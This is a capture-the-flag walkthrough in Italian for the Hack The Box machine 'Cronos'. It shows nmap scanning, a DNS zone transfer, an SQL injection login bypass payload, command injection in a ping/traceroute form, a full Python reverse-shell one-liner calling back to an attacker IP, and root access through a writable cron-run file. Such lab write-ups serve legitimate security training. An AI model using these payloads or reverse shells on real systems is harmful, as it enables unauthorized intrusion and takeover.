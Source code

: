 # Cronos

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.13
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 22**: OpenSSH 7.2p2
* **Porta 53**: ISC BIND 9.10.3-P4
* **Porta 80**: Apache 2.4.18

```text
Nmap scan report for 10.10.10.13
Host is up (0.10s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/20%OT=22%CT=1%CU=42347%PV=Y%DS=2%DC=I%G=Y%TM=650AA21
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=108%TI=Z%II=I%TS=8)SEQ(SP=1
OS:03%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Innanzitutto, vedo cosa c'è sulla porta 80:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-1.png" />
</p>

Facendo una ricerca su internet sembra che questa pagina sia dovuta a un errore di configurazione nel mapping tra l'ip e l'host.

Provo quindi ad utilizzare nslookup per identificare l'host:

```text
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
10.10.10.13.in-addr.arpa  name= ns1.cronos.htb
```

Quindi aggiungo _cronos.htb_ al file _/ect/hosts_.

Cerco di capire se c'è la possibilita di effettuare un trasferimento di zona (zone transfer) utilizzando il comando dig:

```text
dig axfr @10.10.10.13 cronos.htb
```

La risposta ottenuta è la seguente:

```text
; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 79 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Wed Sep 20 10:23:45 EDT 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

Quindi il server DNS è vulnerabile al trasferimento di zona. Proseguo aggiornando il file _/ect/hosts_ e visito la pagina _admin.cronos.htb_:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-2.png" />
</p>

## Exploitation

Come primo tentativo utilizzo una banale [cheat sheet](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) per capire se il form è vulnerabile all'SQL Injection.

Dopo diversi tentativi, scopro che è vulnerabile riempendo il campo username nel seguente modo:

```text
admin' #
```

Una volta dentro mi ritrovo questa pagina:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-3.png" />
</p>

C'è un semplice form con la possibilità di scegliere tra due comandi: traceroute e ping. Di conseguenza, ipotizzo che questa funzionalità comunica direttamente con il SO. Quindi provo semplicemente a concatenare un comando alla richiesta.

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-4.png" />
</p>

**E' vulnerabile!**

Riesco a scoprire quindi che il primo flag è collegato all'utente noulis.

## Privilege Escalation

Per prima cosa cerco un modo per avviare una reverse shell. Da una rapida ricerca mi imbatto in questo comando python:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Concateno il tutto al comando traceroute e avvio un listener sulla mia macchina:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-5.png" />
</p>

Per prima cosa, dato il nome della macchina, controllo il file crontab:

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-6.png" />
</p>

Da qui scopro che il file php artisan viene eseguito ogni minuto e che ho la possibilità di modificarlo.

Quindi trovo un [modo](https://github.com/pentestmonkey/php-reverse-shell) per creare un'altra reverse shell e avvio un listener.

**Sono root!**

<p align="center">
  <img src="/Immagini/Linux-Box/Cronos/cronos-7.png" />
</p>
